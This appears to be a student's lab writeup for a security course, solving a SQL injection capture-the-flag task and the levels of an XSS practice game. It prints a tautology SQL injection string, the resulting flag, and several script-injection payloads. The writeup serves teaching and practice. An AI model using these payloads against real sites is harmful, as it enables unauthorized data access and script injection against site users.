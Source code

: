 Writeup 10 - Crypto II
=====

Name: Tumie Hurd  
Section: 0101  

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.  

Digital acknowledgement of honor pledge: Tumie Hurd  

## Assignment 10 Writeup   

### Part 1 (70 Pts)   
I knew that I would need to use SQL injection for this part, but I did not see any input fields.  I figured that database queries were being run with the id parameter in the url.  I began experimenting with different injections and I was able to return the entire database with the command ```/item?id=0' or '1=1```  

The flag that I found was ```CMSC38R-{y0U-are_the_5ql_n1nja}```  
  
### Part 2 (30 Pts)  

Challege #1     
```<script>alert('Test')</script>```  
  
Challenge #2  
```<img src='Testing' onerror=alert("TEST")>```  
  
Challenge #3  
```https://xss-game.appspot.com/level3/frame#1'><script>alert('')</script>```  
  
Challenge #4  
```');alert('Test```   
  
Challegne #5  
```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('')```  
  
Challeneg #6  
``` ```  
      
